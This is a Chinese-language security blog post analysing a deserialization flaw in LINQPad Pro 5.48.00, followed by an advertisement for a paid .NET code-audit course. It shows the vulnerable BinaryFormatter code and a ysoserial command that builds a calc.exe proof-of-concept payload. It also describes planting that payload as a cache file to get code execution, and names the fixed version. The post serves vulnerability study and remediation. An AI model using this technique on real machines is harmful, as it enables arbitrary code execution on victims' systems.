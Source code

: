 #  .NET LINQPad 最新反序列化漏洞分析与利用   
原创 专攻.NET安全的  dotNet安全矩阵   2024-12-17 00:28  
  
01  
  
阅读须知  
  
此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他方面  
  
  
  
02  
  
漏洞背景  
  
LINQPad 是一款广泛使用的 .NET 交互式编辑工具，尤其在开发和调试 LINQ 查询时被很多研发高度依赖。  
然而，在 LINQPad v5.48.00（专业版）中，存在一个严重的   
反序列化漏洞  
，攻击者可利用该漏洞实现任意代码执行。  
这个漏洞的根源在于不安全地使用   
BinaryFormatter  
 对外部输入数据进行反序列化。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8J0w4TbaDF1HpPAbnPzicV61VOZprtAVe2dh9aKskMQzItdw0N3WEOhFnic1XBDfrriaxEL9MU9xdEA/640?wx_fmt=png&from=appmsg "")  
  
03  
  
漏洞原理  
  
LINQPad 反序列化漏洞   
AutoRefManager  
 类的   
PopulateFromCache  
 方法被   
AutoRefManager.Initialize  
 调用。  
在此方法中，LINQPad 会从磁盘路径   
%localappdata%\LINQPad\AutoRefCache46.1.dat  
 加载缓存数据。以下是核心代码的关键部分：  
  
```
private static bool PopulateFromCache(){    if (!File.Exists(AutoRefManager._cachePath))        return false;    try    {        Dictionary<string, string[]> dictionary;        using (FileStream serializationStream = File.OpenRead(AutoRefManager._cachePath))            dictionary = (Dictionary<string, string[]>) new BinaryFormatter().Deserialize((Stream) serializationStream);        if (dictionary == null)            return false;        // 数据处理逻辑        TypeResolver.AutoRefCaseLookup = dictionary.Keys.ToLookup<string, string>(s => s, StringComparer.OrdinalIgnoreCase);        TypeResolver.AutoRefLookup = AutoRefManager._refLookup = dictionary;        return true;    }    catch    {        return false;    }}
```  
  
  
LINQPad 从固定路径   
%localappdata%\LINQPad\AutoRefCache46.1.dat  
 加载反序列化数据。  
攻击者只需将恶意构造的   
AutoRefCache46.1.dat  
 文件放入此目录，  
再经过 BinaryFormatter.Deserialize 方法会对外部输入的二进制数据进行反序列化，而没有对输入数据进行验证。这使得攻击者可以构造恶意的二进制数据，利用反序列化触发任意代码执行。  
  
03  
  
漏洞利用  
  
利用反序列化漏洞，攻击者可借助   
ysoserial  
 工具构造恶意负载。  
ysoserial  
 是一个专门用来生成反序列化攻击有效负载的工具。  
## 3.1 生成Payload  
  
生成Payload  
使用   
ysoserial  
 工具生成   
BinaryFormatter  
 格式的有效负载，指定执行   
calc.exe  
：  
  
```
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -c calc.exe -o raw > e:\AutoRefCache46.1.dat
```  
  
  
指定反序列化格式为 BinaryFormatter，利用 TypeConfuseDelegate 触发任意代码执行。  
## 3.2 复制文件到缓存目录  
  
将生成的 AutoRefCache46.1.dat 文件复制到受影响的路径，具体如下所示。  
  
```
%localappdata%\LINQPad\AutoRefCache46.1.dat
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8J0w4TbaDF1HpPAbnPzicV6sYRBy9aQEJ6cz51stHKdxXw8Nia0toVGe3nTn3IiauwLTvWfqgBHvVqg/640?wx_fmt=png&from=appmsg "")  
  
启动 LINQPad 专业版，触发   
AutoRefManager.PopulateFromCache  
 方法，反序列化恶意数据，执行   
calc.exe，如下图所示。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8J0w4TbaDF1HpPAbnPzicV6wQnqEna0OiaCW02F0uG8Wn7g9K0v2jHFUvaXtDQawGxRre2v3vu90Yg/640?wx_fmt=png&from=appmsg "")  
  
04  
  
漏洞修复  
  
该漏洞已在 LINQPad v5.52.01 中修复，用户应尽快将 LINQPad 升级到最新版本（v5.52.01 及以上），以避免该漏洞被利用。值得注意的是，漏洞不影响免费版及未经授权的版本，也因此我们测试的时候本地安装的是免费版本，因此未触发漏洞。如下图所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8J0w4TbaDF1HpPAbnPzicV6h0iagdLtg9dWriaiaWqnJtq3icSYLsmdx4N5hCx3ickNw4ibBmibTJ5USEF7g/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
.NET代码审计  
  
造成 LINQPad 出现反序列化漏洞的敏感函数，我们dot.Net安全代码审计星球视频课程早已覆盖，内容上  
包括但不限于OWASP十大漏洞类型，涉及SQL注入漏洞、文件上传下载漏洞、任意文件操作漏洞、XML外部实体注入漏洞、跨站脚本攻击漏洞、反序列化漏洞、命令执行漏洞、未授权和越权漏洞、第三方组件漏洞等等。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8fTUcmnHC8g2WjE6SZJIjwMahhN19jbtUiax5UWVU0R3n4eick9XQEHyf3lhjE3wvCic9ZFD3h9tWsQ/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
截至目前，星球已推出近**100节内容**  
(还在持续增加)，**包括70个视频+30份PDF文档**  
。  
我们已将内容细致划分为15个分类，并随新漏洞类型的出现持续扩展。  
  
同时，为助力零基础新人轻松踏入.NET代码审计的殿堂，精心准备配备了一套《.NET安全基础入门》星球，**加入代码审计后赠送该星球永久免费学习**  
。星球内容覆盖广泛，  
以  
**视频讲解的方式******  
作为主要学习桥梁  
。  
  
从  
.NET的基本概念、环境搭建讲起，逐步深入到编程语言、类库使用、面向对象编程、异常处理、文件操作等关键知识点。  
通过系统而全面的讲解，让初学者从零开始，逐步掌握.NET框架的核心概念、基本原理及实践技能。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8fTUcmnHC8g2WjE6SZJIjwyhqLldZDia4a2CTDIdtI1K2htMYsiaEEXWVCjmtkvRlDwzGaYtf5D8YA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**1. 学习模式:**  
代码审计  
知识星球**在线录播视频**  
 +后续漏洞挖掘直播、内部专属交流社区答疑解惑；  
  
**2. 优享福利：**  
加入.NET代码审计星球后**赠送永久**  
dot.Net安全基础入门星球。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibkE3ACnPUtfbn99XZmI6ANI9DCxS2KHkqiaXBk22ZevuRm08onmEibIUvdEy5zJGCoHg4HAsrgQ22w/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
欢迎对.NET代码审计关注和关心的同学加入我们 [dot.Net安全代码审计] ，  
目前已有近 100+ 位朋友抢先预定。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibEfvTKP231YekyMbc9jeicFuh0aAYDSicAg36pkFaC2P1KW0L5NV1HOssmysrPnrP1fzr2rFOmy8lA/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
星球门票后期价格随着内容和质量的不断沉淀会适当提高，**越早加入越划算！**  
   
现在加入星球可享受星球**早鸟价**  
，并可领取**100元优惠券**  
，  
期待  
在这里能遇到有情  
有义的小伙伴，大家聚在一起做一件有意义的事，  
**可**  
**扫描下方老师二维码了解更多详情。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibkE3ACnPUtfbn99XZmI6ANBJ4t8XC4ibbWjhzj0447zAJcWgwV9wcDhcibNiax3P7iagSYwn31GEkTBw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
